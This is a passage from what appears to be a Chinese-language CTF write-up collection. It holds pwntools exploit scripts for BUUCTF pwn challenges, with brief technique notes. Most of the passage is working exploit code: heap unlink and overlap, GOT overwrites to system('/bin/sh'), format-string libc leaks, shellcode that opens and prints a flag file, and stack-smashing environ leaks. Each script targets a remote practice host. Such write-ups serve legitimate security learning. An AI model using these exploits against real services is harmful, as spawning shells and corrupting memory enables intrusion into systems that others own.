mal(0x38) #6 | |
edit(1, b'a'*0x18 + p8(0x41)) | |
free(0) | |
mal(0x38) #0 | |
free_g = e.got['free'] | |
free(3) | |
edit(0, b'a'*0x18 + p64(0x21) + p64(free_g-1)) | |
mal(0x18, b'a') #3 | |
dump(3) | |
p.recvuntil(b'a') | |
free_a = u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0')) | |
print('[+] free addr: %#x'%free_a) | |
libc = LibcSearcher('free', free_a) | |
libcbase = free_a - libc.dump('free') | |
sys_a = libcbase + libc.dump('system') | |
edit(3, b'\0' + p64(sys_a)) | |
edit(4, b'/bin/sh\0') | |
free(4) | |
p.interactive() |
# wdb_2018_2nd_easyfmt
fmt
泄露 libc 地址，然后修改 printf_got 为 system。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(os='linux',arch='i386',log_level='debug') | |
filename = 'wdb_2018_2nd_easyfmt' | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process("./"+filename) if mode else remote('node4.buuoj.cn',27983) | |
e = ELF('./'+filename) | |
if mode==2: | |
gdb.attach(p, 'b ') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
main_a = e.symbols['main'] | |
printf_g = e.got['printf'] | |
lsm_g = e.got['__libc_start_main'] | |
offset=6 | |
p.recvuntil(b'Do you know repeater?\n') | |
payload = b'%7$s' + p32(lsm_g) | |
p.send(payload) | |
lsm_a = u32(p.recv(4)) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
obj = LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - obj.dump('__libc_start_main') | |
sys_a = libcbase + obj.dump('system') | |
bs_a = libcbase + obj.dump('str_bin_sh') | |
print('[+] system add: %#x'%sys_a) | |
payload = fmtstr_payload(6,{printf_g:sys_a}) | |
p.sendafter(b'\n',payload) | |
p.sendafter(b'\n',b'/bin/sh\0') | |
p.interactive() | |
p.close() |
# hitcontraining_bamboobox
unlink, got
构造 unlink 指向 itemlist，然后实现任意地址读写。注意每次写会自动在最后面添加 '\0' ，所以需要调整以防出事。
可能还能用 overlap，因为写入数量不限。其次也许可以通过修改最开始程序自己分配的 0x10 内储存的地址来实现 getshell，但由于填充 0 字符以及 printf 输出，导致泄露 heap 地址有些困难。
其次 magic 是假的，flag 文件只放在了根目录。所以老实怎么来怎么来吧。
#!/usr/bin/python3
from pwn import *
from LibcSearcher import LibcSearcher
context(arch='amd64', log_level='debug')
filename = 'bamboobox'
libcfile = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/libc-2.23.so'
libc = ELF(libcfile)
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0
p = process('./'+filename+'_pe') if mode else remote('node4.buuoj.cn',26150)
e = ELF('./'+filename+'_pe') if mode else ELF('./'+filename)
if mode==2:
gdb.attach(p, 'b *0x400E42')
def suspend():
if mode == 2:
pause()
else:
sleep(0.1)
def choose(x):
p.sendafter(b'Your choice:', str(x).encode())
def mal(size, content=b'aaaa'):
choose(2)
p.sendafter(b'length of item name:', str(size).encode())
p.sendafter(b'name of item:', content)
def free(index):
choose(4)
p.sendafter(b'the index of item:', str(index).encode())
def edit(index, size, content):
choose(3)
p.sendafter(b'index of item:', str(index).encode())
p.sendafter(b'length of item name:', str(size).encode())
p.sendafter(b'name of the item:', content)
def dump():
choose(1)
array = 0x6020c0
c1 = array + 0x10*1 + 0x8
magic = 0x0400D49
free_g = e.got['free']
mal(0x18)
mal(0xa8)
mal(0x98)
mal(0x18) #3
payload = p64(0) + p64(0xa1) + p64(c1 - 0x8*3) + p64(c1-0x8*2)
payload = payload.ljust(0xa0,b'\0') + p64(0xa0) + p32(0xa0)
edit(1, len(payload), payload)
free(2)
payload = p64(0x18) + p64(free_g) + p32(0xa8)
edit(1, len(payload), payload)
dump()
p.recvuntil(b'0 : ')
free_a = u64(p.recv(6)+b'\0\0')
libc = LibcSearcher('free', free_a)
libcbase = free_a - libc.dump('free')
sys_a = libcbase + libc.dump('system')
edit(3, 7, b'/bin/sh')
edit(0, 7, p64(sys_a)[:-1])
free(3)
p.interactive()
# hitcontraining_unlink
与上面 hitcontraining_bamboobox 是同一题
# [极客大挑战 2019] Not Bad
shellcode
#!/usr/bin/python3 | |
from pwn import * | |
context(arch='amd64', log_level='debug') | |
#p=process('./bad') | |
p=remote('node4.buuoj.cn',28542) | |
#gdb.attach(p, 'b*0x0400A01') | |
jmprsp = 0x0400A01 | |
offset = 0x020 | |
shellcode = ''' | |
mov rsi, rsp | |
xor rdi, rdi | |
mov rdx, 0x400 | |
xor rax, rax | |
syscall | |
jmp rsp | |
''' | |
shellcode2 = ''' | |
lea rax, [rsp-0x30] | |
jmp rax | |
''' | |
payload = asm(shellcode) | |
payload = payload.ljust(offset+3,b'a') + b'flag\0' + p64(jmprsp) + asm(shellcode2) | |
p.send(payload) | |
pause() | |
shellcode = ''' | |
lea rdi, [rsp-0xd] | |
mov rax, 2 | |
xor rdx, rdx | |
xor rsi, rsi | |
syscall | |
mov rdi, 3 | |
lea rsi, [rsp + 0xff] | |
mov rdx, 0x400 | |
xor rax, rax | |
syscall | |
mov rdi, 1 | |
mov rax, 1 | |
syscall | |
''' | |
p.send(asm(shellcode)) | |
p.interactive() |
# axb_2019_brop64
# **wdb2018_guess
fork, stack smashing
这题创建了 3 个子程序，并且存在 canary 保护。由于不是无限 fork 子程序，所以不能使用传统的 fork 爆破。
在 libc-2.23 版本中，stack smashing 报错时，会输出 environ 变量所指的文件名。而该变量储存在栈上。所以可以通过溢出将该变量覆盖为 ` 函数 got 表地址，以此在栈溢出报错时可以泄露 libc 地址。
随后可以查找 libc 里的 __environ 变量，该变量储存着栈地址。
最后，计算偏移，求出程序在栈上储存 flag 的地址。依法炮制，将 flag 输出。
#!/usr/bin/python3 | |
from pwn import * | |
from LibcSearcher import LibcSearcher | |
context(os='linux', arch='amd64', log_level='debug') | |
filename = 'GUESS' | |
libcfile = '/home/walt/share/pwn/libc/libc6_2.23-0ubuntu10_amd64/libc/lib/x86_64-linux-gnu/libc-2.23.so' | |
libc = ELF(libcfile) | |
mode = int(sys.argv[1]) if len(sys.argv)>1 else 0 | |
p = process("./"+filename+'_pe') if mode else remote('node4.buuoj.cn', 28289) | |
e = ELF('./'+filename) if mode else ELF('./'+filename+'_pe') | |
if mode==2: | |
gdb.attach(p, 'b read') | |
def suspend(): | |
if mode == 2: | |
pause() | |
else: | |
sleep(0.1) | |
main_a = 0x400B0D | |
lsm_g = e.got['__libc_start_main'] | |
rdi = 0x0400c13 | |
rsi_r15 = 0x0400c11 | |
ret = 0x0400791 | |
environ = 0x7ffc91e90808 | |
buf = 0x7ffc91e906e0 | |
ind = environ-buf | |
payload = ind * b'a' + p64(lsm_g) | |
p.sendlineafter(b"Please type your guessing flag", payload) | |
p.recvuntil(b'***: ') | |
lsm_a = u64(p.recvuntil(b' ')[:-1].ljust(8,b'\0')) | |
print('the true address of __libc_start_main is %#x'%lsm_a) | |
obj = LibcSearcher('__libc_start_main',lsm_a) | |
libcbase = lsm_a - obj.dump('__libc_start_main') | |
evr = libcbase + obj.dump('__environ') | |
payload = ind * b'a' + p64(evr) | |
p.sendlineafter(b"Please type your guessing flag", payload) | |
p.recvuntil(b'***: ') | |
stackadd = u64(p.recvuntil(b' ')[:-1].ljust(8,b'\0')) | |
flag = stackadd + 0x9960 - 0x9ac8 | |
payload = ind * b'a' + p64(flag) | |
p.sendlineafter(b"Please type your guessing flag", payload) | |
p.recvuntil(b'***: ') | |
print(p.recvuntil(b'}')) | |
p.interactive() | |
p.close() |